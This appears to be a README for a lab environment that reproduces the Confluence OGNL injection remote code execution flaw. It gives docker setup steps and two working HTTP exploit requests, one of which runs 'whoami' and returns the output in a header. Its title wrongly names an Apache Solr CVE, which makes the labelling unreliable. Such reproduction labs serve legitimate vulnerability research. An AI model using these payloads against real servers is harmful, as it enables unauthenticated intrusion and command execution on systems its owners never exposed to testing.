

# Apache Solr Remote Code Execution Vulnerability(CVE-2019-0193)

## Introduction

Atlassian has been made aware of current active exploitation of a critical severity unauthenticated remote code execution vulnerability in Confluence Data Center and Server. The `OGNL` injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance. 

## Usage

Run

```bash
docker-compose up
```

Follow the installation guild and setup the database with

```
user: postgres
passwd: postgres
database: confluence
```

Sending the request

```http
GET /%24%7B(Class.forName(%22jav%22+%22ax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22js%22).eval(%22var%20p%20%3D%20org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('whoami').getInputStream(),'utf-8')%3B%20com.opensymphony.webwork.ServletActionContext.getResponse().setHeader('X-Cmd-Response',p)%3B%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```



or a brief poc but witout command execution reply in response.

```http
GET /%24%7B(Class.forName(%22java%22+%22.lang.Runtime%22).getMethod(%22getRuntime%22,%20null).invoke(null,%20null).exec(%22touch%20/tmp/success%22))%7D/ HTTP/1.1
Host: localhost:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
```

## Reference

1. https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html
2. https://jira.atlassian.com/browse/CONFSERVER-79016